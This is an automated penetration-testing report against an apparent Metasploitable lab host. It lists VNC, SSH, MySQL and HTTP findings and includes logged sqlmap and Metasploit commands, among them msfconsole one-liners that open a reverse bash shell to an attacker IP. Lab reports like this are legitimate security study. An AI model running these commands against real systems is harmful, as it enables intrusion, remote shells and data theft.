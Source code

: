 # Post-Exploitation Summary for 10.1.3.2 (Generated: 2025-09-03 23:20:00)

## VNC Post-Exploitation (vnc_post_exploit)

- **Status**: Failed

- **Port**: 5900

- **Exploits Found**: 1

### Original Exploits

- **VNC Brute Force**: VNC brute force successful

### Post-Exploitation Output

```
usage: vnc_post_exploit.py [-h] --attacker-ip ATTACKER_IP
                           [--attacker-port ATTACKER_PORT] [--no-confirm]
                           target service
vnc_post_exploit.py: error: the following arguments are required: service

```

- **Next Steps**:
  - Review errors in output above.
  - Check if target is still accessible.
  - Verify exploit conditions still exist.


## MYSQL Post-Exploitation (mysql_post_exploit)

- **Status**: Failed

- **Port**: 3306

- **Exploits Found**: 1

### Original Exploits

### Post-Exploitation Output

```
usage: mysql_post_exploit.py [-h] --attacker-ip ATTACKER_IP
                             [--attacker-port ATTACKER_PORT] [--no-confirm]
                             target service
mysql_post_exploit.py: error: the following arguments are required: service

```

- **Next Steps**:
  - Review errors in output above.
  - Check if target is still accessible.
  - Verify exploit conditions still exist.


## SSH Post-Exploitation (ssh_post_exploit)

- **Status**: Success

- **Port**: 22

- **Exploits Found**: 7

### Original Exploits

- **potential_exploit_finding**: Reconnaissance identified a potential exploit: OpenSSH 2.3 < 7.7 - Username Enumeration (PoC) (linux/remote/45210.py)

- **potential_exploit_finding**: Reconnaissance identified a potential exploit: OpenSSH 2.3 < 7.7 - Username Enumeration (linux/remote/45233.py)

- **potential_exploit_finding**: Reconnaissance identified a potential exploit: OpenSSH < 6.6 SFTP (x64) - Command Execution (linux_x86-64/remote/45000.c)

- **potential_exploit_finding**: Reconnaissance identified a potential exploit: OpenSSH < 6.6 SFTP - Command Execution (linux/remote/45001.py)

- **potential_exploit_finding**: Reconnaissance identified a potential exploit: OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain So (linux/local/40962.txt)

- **potential_exploit_finding**: Reconnaissance identified a potential exploit: OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading (linux/remote/40963.txt)

- **potential_exploit_finding**: Reconnaissance identified a potential exploit: OpenSSH < 7.7 - User Enumeration (2) (linux/remote/45939.py)

### Post-Exploitation Output

```
2025-09-03 23:16:38,584 - WARNING - The best exploit found ('potential_exploit_finding') does not provide credentials for post-exploitation. No actions taken.
2025-09-03 23:16:38,584 - INFO - No actionable post-exploitation steps were taken.
```

- **Next Steps**:
  - Review post-exploitation findings.
  - Check for privilege escalation opportunities.
  - Document persistence mechanisms.
  - Verify data exfiltration results.


## HTTP Post-Exploitation (http_post_exploit)

- **Status**: Success

- **Port**: 80

- **Exploits Found**: 13

### Original Exploits

- **Local File Inclusion (LFI)**: LFI vulnerability exploited on http://10.1.3.2/phpinfo

- **Remote Code Execution (RCE)**: RCE vulnerability exploited on http://10.1.3.2/phpinfo.php with parameter cmd

- **Local File Inclusion (LFI) - Discovered Endpoint**: LFI found on discovered endpoint http://10.1.3.2/twiki with parameter file

- **Mod Negotiation Misconfiguration**: Mod negotiation enabled, accessed http://10.1.3.2/index.php

- **PHP 5.2.4 Vulnerability**: PHP 5.2.4 vulnerability exploited: PHP/5.2.4-2ubuntu5.10.

- **HTTP TRACE Authentication Bypass**: HTTP TRACE method exploited for authentication bypass

- **phpinfo Intelligence Gathering**: System intelligence extracted: phpinfo.php intelligence gathered: System: Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686; Document Root: unknown; Dangerous functions available: exec, system, shell_exec

- **Header XSS Reflection**: Header-based XSS reflection on http://10.1.3.2/mutillidae/browser-info.php via Referer/User-Agent

- **Cookie-based Feature Toggle**: Cookie-based feature toggle on http://10.1.3.2/mutillidae/index.php: size 24209 -> 25897

- **SQL Injection (Error-based Indicator)**: Possible SQL error reflection at http://10.1.3.2/mutillidae/user-info.php?username=1'

- **SQL Injection (POST - Error-based)**: SQL Injection (POST - Error-based): http://10.1.3.2/mutillidae/add-to-your-blog.php param entry

- **SQL Injection (POST - Error-based)**: SQL Injection (POST - Error-based): http://10.1.3.2/mutillidae/add-to-your-blog.php param title

- **SQL Injection (POST - Error-based)**: SQL Injection (POST - Error-based): http://10.1.3.2/mutillidae/login.php param username

### Post-Exploitation Output

```
2025-09-03 23:16:39,584 - INFO - Starting HTTP post-exploitation of 10.1.3.2:80 using reconnaissance data
2025-09-03 23:16:40,759 - INFO - Running: sqlmap -u http://10.1.3.2/mutillidae/user-info.php -p username --batch --dbs --level 3 --risk 2
2025-09-03 23:16:42,530 - INFO - Testing Metasploit HTTP post-exploitation: exploit/unix/webapp/php_include
2025-09-03 23:16:42,530 - INFO - Running: msfconsole -q -x use exploit/unix/webapp/php_include; set RHOSTS 10.1.3.2; set RPORT 80; set LHOST 10.1.11.248; set LPORT 4444; set PAYLOAD cmd/unix/reverse_bash; run; exit
2025-09-03 23:17:31,978 - INFO - Testing Metasploit HTTP post-exploitation: exploit/linux/http/php_cgi_query_string
2025-09-03 23:17:31,978 - INFO - Running: msfconsole -q -x use exploit/linux/http/php_cgi_query_string; set RHOSTS 10.1.3.2; set RPORT 80; set LHOST 10.1.11.248; set LPORT 4444; set PAYLOAD cmd/unix/reverse_bash; run; exit
2025-09-03 23:18:09,273 - INFO - Testing Metasploit HTTP post-exploitation: exploit/linux/http...
```

- **Next Steps**:
  - Review post-exploitation findings.
  - Check for privilege escalation opportunities.
  - Document persistence mechanisms.
  - Verify data exfiltration results.

